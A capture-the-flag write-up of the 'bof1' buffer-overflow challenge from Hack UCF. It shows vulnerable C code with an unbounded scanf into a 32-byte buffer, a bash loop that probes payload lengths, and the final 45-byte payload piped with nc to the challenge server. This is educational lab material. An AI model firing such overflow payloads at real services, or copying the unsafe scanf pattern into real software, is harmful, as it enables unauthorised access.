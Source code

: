 # bof1
**Category:** Pwn

**Points:** 5

**Description:**

Author: kablaa

Pwn that buffer!

`nc ctf.hackucf.org 9000`

> **Files:** bof1, bof1.c, libpwnableharness64.so

**Write-up**
This is a buffer overflow challenge, and the code file was provided.

Looking at the code the important function seemed to be `handle_connection()` as it contains a `scanf()` call into a buffer of 32 chars:
```c
void handle_connection(int sock) {
	int admin = 0;
	char buf[32];
	
	scanf("%s", buf);
	
	if(admin) {
		win();
	}
	else {
		puts("nope!");
	}
}
```

When the program runs it waits for input at this point, and overflowing the buffer may give a result. At first I tried overrunning by a single byte.
Initial I was typing by hand, but the realised Python could help with this:
```bash
> python -c "print ('A' * 33)" | ./bof1
nope!
```

This has no effect on the program and I decided to try overflowing until the program segmented as this can sometimes guide you as to where the function return address is. I created a script:
```bash
#!/bin/bash
for i in {33..100}
do
  output=$(python -c "print ('A' * $i)" | ./bof)
  echo "For $i output is $output"
done
```

I found that when the script hit 45 (and after), a different message was output:
```bash
> ./overflow.sh
For 33 output is nope!
For 34 output is nope!
For 35 output is nope!
For 36 output is nope!
For 37 output is nope!
For 38 output is nope!
For 39 output is nope!
For 40 output is nope!
For 41 output is nope!
For 42 output is nope!
For 43 output is nope!
For 44 output is nope!
For 45 output is error, contact admin
For 46 output is error, contact admin
For 47 output is error, contact admin
For 48 output is error, contact admin
For 49 output is error, contact admin
For 50 output is error, contact admin
...
```
I realised this was getting into the `win()` function, but didn't understand why it reported an error (the code shows this error is reported when the flag file was missing)
After spending a while thinking there must be more to the solution, eventually I realised it was just that I wasn't running on the server, so now ran:
```bash
> python -c "print('A' * 45)" | nc ctf.hackucf.org 9000
```

This worked, and gave me the flag.
